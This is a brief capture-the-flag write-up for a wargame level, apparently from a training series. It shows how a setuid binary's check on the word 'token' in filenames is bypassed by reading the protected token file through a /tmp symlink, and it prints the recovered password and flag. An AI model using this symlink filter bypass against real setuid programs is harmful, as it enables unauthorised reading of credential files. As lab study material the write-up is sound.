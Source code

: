## writeup level08

When we log in as user level08, we have 2 files:
```shell
$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
Again the suid flag, the token flag has permissions only for the flag08 user. Let's try:
```shell
$ ./level08
./level08 [file to read]

$ ./level08 token
You may not access 'token'
```
When examining the binary, we see it uses strstr to make sure the name of the file doesn't contain the word 'token'. \
So we want the binary to read the file with another name, so we create a symbolic link which doesnt contain 'token' in its name:
```shell
$ ln -sfv $PWD/token /tmp/whatever
`/tmp/whatever' -> `/home/user/level08/token'

$ ./level08 /tmp/whatever
quif5eloekouj29ke0vouxean

$ su flag08
Password:
quif5eloekouj29ke0vouxean
Don't forget to launch getflag !

$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
